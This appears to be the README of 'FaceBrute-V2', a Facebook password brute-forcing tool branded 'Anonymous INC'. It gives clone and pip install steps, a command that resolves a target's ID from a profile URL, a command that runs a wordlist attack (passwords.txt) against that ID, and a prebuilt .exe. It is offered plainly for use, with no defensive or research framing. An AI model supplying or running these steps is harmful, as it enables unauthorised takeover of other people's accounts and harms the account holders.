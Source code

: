 # FaceBrute-V2
== A N O N Y M O U S  I N C ==

## Get Started
Install first
'''
> https://www.python.org/downloads/
> git clone https://github.com/IyoRTML/FaceBrute-V2.git
'''

## Run in Command Line
'''
> pip install requests
> pip install mechanize
> py.exe main.py -g https://www.facebook.com/Username
> py.exe main.py -t [This Target ID] -w passwords.txt
'''

## Run in FaceBrute.EXE
'''
> Double click FaceBrute.exe
![Anonymous INC](https://raw.githubusercontent.com/IyoRTML/FaceBrute-V2/main/img/facebruteanonymousinc.jpg)
